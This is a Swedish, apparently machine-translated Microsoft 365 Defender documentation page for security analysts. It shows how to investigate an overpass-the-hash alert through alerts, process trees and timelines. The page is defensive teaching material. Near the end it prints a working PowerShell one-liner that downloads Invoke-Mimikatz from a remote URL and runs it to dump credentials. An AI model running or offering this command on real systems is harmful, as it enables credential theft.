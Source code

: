 ```yaml
---
title: Exempel på en identitetsbaserad attack
description: Gå igenom en exempelanalys av en identitetsbaserad attack.
keywords: incidenter, varningar, undersöker, korrelation, attack, datorer, enheter, användare, identiteter, identiteter, postlåda, e-post, 365, microsoft, m365, incidentsvar, cyberattack
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: e56d6d5d78101da1f6da4c14ade25e80aa5b5063
ms.sourcegitcommit: 05f40904f8278f53643efa76a907968b5c662d9a
ms.translationtype: MT
ms.contentlocale: sv-SE
ms.lasthandoff: 04/30/2021
ms.locfileid: "52115013"
---
```

# <a name="example-of-an-identity-based-attack"></a>Exempel på en identitetsbaserad attack

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Gäller för:**
- Microsoft 365 Defender

Microsoft Defender för identitet kan hjälpa till att identifiera skadliga försök att avslöja identiteter i organisationen. Eftersom Defender för identitet integreras med Microsoft 365 Defender kan säkerhetsanalytiker se hot som kommer in från Defender för identitet, till exempel misstänkta Netlogon-behörighetsförsök.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analysera attacken i Microsoft Defender för identitet

Microsoft 365 Med Defender kan analytiker filtrera aviseringar efter identifieringskälla **på fliken** Aviseringar på sidan Incidenter. I följande exempel filtreras identifieringskällan till **Defender för identitet.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Exempel på filtrering av identifieringskällan för Defender för identitet":::

Om du **väljer den misstänkta overpass-the-hash-attackvarningen** går du till en sida i Microsoft Cloud App Security som visar mer detaljerad information. Du kan alltid ta reda på mer  om en avisering eller [](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) attack genom att välja Läs mer om den här aviseringstypen för att läsa en beskrivning av attacken samt åtgärdsförslag.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Exempel på misstänkt överpass-hash-attackvarning"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Undersöker samma attack i Microsoft Defender för Endpoint

En analytiker kan också använda Defender för Endpoint om du vill veta mer om aktiviteten på en slutpunkt. Välj incidenten i incidentkön och välj sedan **fliken** Aviseringar. Härifrån kan de även identifiera identifieringskällan. En identifieringskälla som heter Identifiering och åtgärd på slutpunkt det här kallas slutpunktsidentifiering och -svar, som är Defender för Slutpunkt. Härifrån väljer analytikern en avisering som identifieras av Identifiering och åtgärd på slutpunkt.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Exempel på identifiering och svar av slutpunkt i Defender för slutpunkt"::: 

På aviseringssidan visas olika relevant information, till exempel den påverkade enhetens namn, användarnamn, status för automatisk undersökning och aviseringsinformationen. I varningsartikeln visas en visuell representation av processträdet. Processträdet är en hierarkisk representation av överordnade och underordnade processer som är relaterade till aviseringen.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Exempel på ett aviseringsprocessträd i Defender för Slutpunkt"::: 

Varje process kan utökas för att visa ytterligare information. Information som en analytiker kan se är de faktiska kommandon som har angetts som en del av ett skadligt skript, utgående anslutnings-IP-adresser och annan användbar information.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Exempel på processinformation i Defender för Slutpunkt":::
 
Genom att **välja Visa på tidslinjen** kan en analytiker granska nedåt ytterligare för att fastställa den exakta tiden för kompromissen. 

Microsoft Defender för Endpoint kan identifiera många skadliga filer och skript. På grund av många legitima användningsområden för utgående anslutningar, PowerShell och kommandoradsaktivitet anses dock en del aktivitet vara aktiv tills den skapar en skadlig fil eller aktivitet. Därför hjälper användning av tidslinjen analytiker att sätta aviseringen i sitt sammanhang med den omgivande aktiviteten för att fastställa den ursprungliga källan eller tiden för attacken som annars döljs av vanliga filsystem och användaraktivitet. 

För att göra detta skulle en analytiker börja vid tiden för aviseringsidentifiering (i rött) och rulla nedåt bakåt i tiden för att avgöra när den ursprungliga aktiviteten som ledde till den skadliga aktiviteten faktiskt startade. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Exempel på att starta vid tiden för aviseringsidentifiering"::: 

Det är viktigt att förstå och urskilja vanlig aktivitet, till exempel Windows Uppdatera anslutningar, Windows Aktiveringstrafik för betrodd programvara, andra vanliga anslutningar till Microsoft-webbplatser, Internetaktivitet från tredje part, Microsoft Endpoint Configuration Manager-aktivitet och annan aktivitet på misstänkta webbplatser. Ett sätt att uppnå det här är att använda tidslinjefilter. Det finns många filter som kan markera viss aktivitet när du filtrerar bort något som analytikern inte vill visa. 

I bilden nedan har analytikern filtrerats för att endast visa nätverks- och processhändelser. Då kan analytikern se nätverksanslutningar och processer kring händelsen där Anteckningar upprättat en anslutning med en IP-adress, vilket vi också såg i processträdet. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Exempel på hur Anteckningar användes för att skapa en skadlig utgående anslutning"::: 

I den här händelsen Anteckningar en skadlig utgående anslutning. Men ofta används bara iexplorer.exe för att upprätta anslutningar för att ladda ned en skadlig nyttolast eftersom iexplorer.exe vanligtvis anses vara vanlig webbläsaraktivitet.

Ett annat objekt att leta efter på tidslinjen skulle vara PowerShell-användningsområden för utgående anslutningar. Analytikern letar efter lyckade PowerShell-anslutningar med kommandon som följt av en utgående anslutning till `IEX (New-Object Net.Webclient)` en webbplats som är värd för en skadlig fil. 

I följande exempel användes PowerShell till att ladda ned och köra Mimikatz från en webbplats:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
En analytiker kan snabbt söka efter nyckelord genom att skriva in nyckelordet i sökfältet för att endast visa händelser som skapats med PowerShell. 

## <a name="next-step"></a>Nästa steg

Se sökvägen till nätfiskeundersökningen. [](first-incident-path-phishing.md)

## <a name="see-also"></a>Se även

- [Översikt över incidenter](incidents-overview.md)
- [Hantera incidenter](manage-incidents.md)
- [Analysera incidenter](investigate-incidents.md)
